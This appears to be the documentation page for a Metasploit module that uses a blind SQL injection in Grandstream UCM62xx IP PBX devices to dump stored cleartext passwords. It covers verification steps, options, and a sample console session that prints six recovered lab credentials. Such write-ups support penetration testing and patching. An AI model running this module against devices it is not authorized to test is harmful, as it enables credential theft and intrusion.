 ## Vulnerable Application

### Description

This module uses a blind SQL injection (CVE-2020-5724) affecting the Grandstream UCM62xx
IP PBX to dump the user database. The injection occurs over a websocket at the websockify
endpoint, and specifically occurs when the user requests the challenge (as part of a
challenge and response authentication scheme). The injection is blind, but the server
response contains a different status code if the query was successful. As such, the
attack can guess the contents of the user database. Most helpfully, the passwords are
stored in cleartext within the user table (CVE-2020-5723).

This issue was patched in Grandstream UCM62xx IP PBX frimware version 1.20.22.

### Installation

The UCM62xx PBX is a physical device and is not known to have been succesfully emulated.
However, if you have a device, affected firmware can be downloaded here:

* http://firmware.grandstream.com/Release_UCM62xx_1.0.20.22.zip

## Verification Steps

* Acquire an affected device and configure it with the affected firmware
* Do: `use auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess`
* Do: `set RHOST <ip>`
* Do: `run`
* You should get a list of usernames and passwords

## Options

### TARGETURI

Specifies base URI. The default value is `/`.

### ID_SCAN

Indicates the number of user ids to scan for. The module starts by scanning the
database for valid user ids. The ids are sequential starting at 0. The default
scans the first 30 ids.

## Scenarios

### Grandstream UCM6202 IP PBX fimrware version 1.0.20.20

```
msf6 > use auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > set RHOST 10.0.0.9
RHOST => 10.0.0.9
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > show options

Module options (auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ID_SCAN    30               yes       The number of initial user ids to scan
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.0.9         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8089             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > run

[*] Requesting version information from /cgi
[*] The reported version is: 1.0.20.20
[*] Found 6 valid user ids
[*] Found username: admin
[*] Found password: cheesed00dle
[*] Found username: 1000
[*] Found password: gZ15S8O8U5S72oli
[*] Found username: 1001
[*] Found password: qK6uRxwC
[*] Found username: 1002
[*] Found password: aP9ux515W7p5U
[*] Found username: 1003
[*] Found password: pM6mo!E8u37k
[*] Found username: 1004
[*] Found password: mC7N68dm8h
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > 
```
